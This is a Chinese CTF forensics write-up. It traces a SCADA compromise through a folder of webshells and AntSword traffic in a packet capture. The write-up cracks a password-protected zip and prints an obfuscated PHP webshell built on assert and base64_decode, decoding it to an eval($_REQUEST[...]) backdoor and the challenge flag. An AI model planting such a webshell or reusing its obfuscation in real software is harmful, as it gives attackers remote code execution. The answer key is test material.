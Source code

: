 # 隐藏的黑客

:::note

根据情报得知工控现场发现某 SCADA 系统被黑客攻破, 附件为黑客在目录留下的文件和当时时间段捕获到的一部分流量包, 你能根据这些信息分析出蛛丝马迹来么

flag 形式为 `flag{}`

:::

题目提供了 `upload` 文件夹以及 `1.pcapng` 流量包文件

对文件夹进行分析，可以发现大量的 Webshell 文件

对流量进行分析，可以发现蚁剑的 Webshell 交互流量

![img](img/image_20241217-231721.png)

在这部分，攻击者读取了 `/var/www/html/webshell.zip` 文件的内容

![img](img/image_20241220-232025.png)

将 `/var/www/html/webshell.zip` 的数据提取出来解析

![img](img/image_20241222-232225.png)

可以发现压缩包存在有密码

联想到密码，可以注意 `upload` 文件夹内存在有大量的 Webshell 文件，将其中的连接密码提取为字典

```python
import os

file_folder = "D:/Downloads/attachment_1579250492_upload/upload"

pass_dict = []

for filename in os.listdir(file_folder):
    file_path = os.path.join(file_folder, filename)
    with open(file_path, "r") as f:
        file_data = f.read().strip()
        pass_dict.append(file_data.split("[")[-1].split("]")[0])

with open("webshell-pass.txt", "w+") as f:
    f.write("\n".join(pass_dict))
```

将提取出来的 `webshell-pass.txt` 文件作为字典进行爆破，得到 ``webshell.zip` 压缩包的密码

![img](img/image_20241232-233246.png)

得到压缩包的密码为`7b8b965ad4bca`

解压压缩包，得到

```php
<?php

error_reporting(0);

@$c = array("1JFUVVFU1RbJzlhNzJjM","2Q1ZTc0ZjYwNTFiYjNiMzU","5MGZhOTMxOWZlJ10pOw","MGZhOTMxOWZlJ","MGZhOTMxOWZlJ");
@$str="ZXZhbCgkX";
@$o0o00o00o00o0o0 = chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
@$ooo00o0o0o0o0o0 = chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).chr(95).chr(100).chr(101).chr(99).chr(111).chr(100).chr(101);
@$count = 0;
for($x=0;$x<=9;$x++){
        if (in_array($x, @$c)){
                @$str=@$str.@$c[@$count];
                if ($count == 2)
                {       
                        @$o0o00o00o00o0o0(@$ooo00o0o0o0o0o0(@$str));
                }
                @$count++;
        }
}
?>
```

对其进行解混淆

```php
<?php

error_reporting(0);

@$c = array("1JFUVVFU1RbJzlhNzJjM","2Q1ZTc0ZjYwNTFiYjNiMzU","5MGZhOTMxOWZlJ10pOw","MGZhOTMxOWZlJ","MGZhOTMxOWZlJ");
@$str="ZXZhbCgkX";
@$count = 0;
for($x=0;$x<=9;$x++){
        if (in_array($x, @$c)){
                @$str=@$str.@$c[@$count];
                if ($count == 2)
                {       
                        assert(base64_decode(@$str));
                }
                @$count++;
        }
}
?>
```

得到其载荷 `eval($_REQUEST['9a72c3d5e74f6051bb3b3590fa9319fe']);`

即可得到答案

```flag
flag{9a72c3d5e74f6051bb3b3590fa9319fe}
```
